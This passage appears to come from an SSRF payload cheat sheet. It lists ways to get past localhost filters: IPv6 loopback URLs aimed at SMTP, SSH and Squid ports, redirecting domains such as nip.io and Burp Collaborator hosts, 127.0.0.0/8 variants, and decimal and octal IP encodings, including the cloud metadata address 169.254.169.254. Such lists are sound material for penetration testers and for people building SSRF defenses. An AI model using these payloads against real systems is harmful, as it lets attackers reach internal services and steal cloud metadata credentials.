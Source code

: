 ```powershell
http://[0000::1]:80/
http://[0000::1]:25/ SMTP
http://[0000::1]:22/ SSH
http://[0000::1]:3128/ Squid
```

### Bypass localhost with a domain redirection

| Domain                       | Redirect to |
|------------------------------|-------------|
| localtest.me                 | `::1`       |
| localh.st                    | `127.0.0.1` |
| spoofed.[BURP_COLLABORATOR]  | `127.0.0.1` |
| spoofed.redacted.oastify.com | `127.0.0.1` |
| company.127.0.0.1.nip.io     | `127.0.0.1` |

The service nip.io is awesome for that, it will convert any ip address as a dns.

```powershell
NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, even 127.0.0.1.nip.io maps to 127.0.0.1
```

### Bypass localhost with CIDR 

IP addresses from 127.0.0.0/8

```powershell
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Bypass using a decimal IP location

```powershell
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/ = http://169.254.169.254
```

### Bypass using octal IP

Implementations differ on how to handle octal format of ipv4.

```sh
http://0177.0.0.1/ = http://127.0.0.1
http://o177.0.0.1/ = http://127.0.0.1
http://0o177.0.0.1/ = http://127.0.0.1
http://q177.0.0.1/ = http://127.0.0.1
...
```
